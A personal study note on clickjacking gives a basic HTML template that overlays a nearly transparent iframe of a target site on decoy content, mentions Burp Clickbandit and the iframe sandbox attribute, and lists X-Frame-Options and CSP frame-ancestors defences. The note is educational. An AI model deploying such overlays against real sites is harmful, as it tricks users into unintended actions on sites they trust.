[[CSRF]]
[[iframe]]
CSRF does not protect from clickjacking.

Basic template:
```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

Burp cliickbandit - PoC genrator


TODO: wtf sandbox attr do
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
or `allow-scripts`

###### Protection
e X-Frame-Options and Content Security Policy

```
X-Frame-Options: deny

X-Frame-Options: sameorigin

X-Frame-Options: allow-from https://normal-website.com
```

```
Content-Security-Policy: frame-ancestors 'self';

Content-Security-Policy: frame-ancestors normal-website.com;
```


